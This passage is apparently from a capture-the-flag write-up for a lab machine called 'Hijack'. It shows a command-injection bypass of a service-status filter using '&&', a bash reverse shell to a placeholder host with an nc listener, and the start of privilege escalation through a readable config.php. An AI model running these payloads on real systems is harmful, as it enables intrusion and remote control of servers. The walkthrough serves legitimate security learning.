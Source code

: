 
## ⚙️ Shell Access

- Here we have Service Status Checker which we can abuse for command injection. Basic stuff wont work.

  ```ssh ; ls -> Command injection detected, please provide a service.```
  
- We can bypass filtering with `&&` or `||`.

  ```
  ssh && ls 

  * ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
     Active: active (running) since Sat 2025-06-07 18:16:32 UTC; 1h 18min ago
    Process: 1060 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 1103 (sshd)
      Tasks: 1
     Memory: 1.5M
        CPU: 356ms
     CGroup: /system.slice/ssh.service
             `-1103 /usr/sbin/sshd -D
  administration.php
  config.php
  index.php
  login.php
  logout.php
  navbar.php
  service_status.sh
  signup.php
  style.css
  ```
  
- Now pop a basic bash shell and let's get those flags.

  ```
  ssh && bash -c 'exec bash -i >& /dev/tcp/YOUR-THM-IP/4444 0>&1'

  nc -lvnp 4444                
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.106.87] 53292
  bash: cannot set terminal process group (1331): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@Hijack:/var/www/html$ whoami
  whoami
  www-data
  www-data@Hijack:/var/www/html$ id
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

---

## 🧍 User Privilege Escalation

- Here, we can't do anything with user `www-data` but there's a `config.php` file that we can read.

  ```
  www-data@Hijack:/var/www/html$ ls -al
  total 48
  drwxr-xr-x 2 www-data www-data 4096 Aug  8  2023 .
  drwxr-xr-x 3 root     root     4096 Aug  8  2023 ..
  -rw-rw-r-- 1 www-data www-data 2062 Jul 12  2023 administration.php
  -rw-rw-r-- 1 www-data www-data  307 Jun 23  2023 config.php
  -rw-rw-r-- 1 www-data www-data 1272 Jul 12  2023 index.php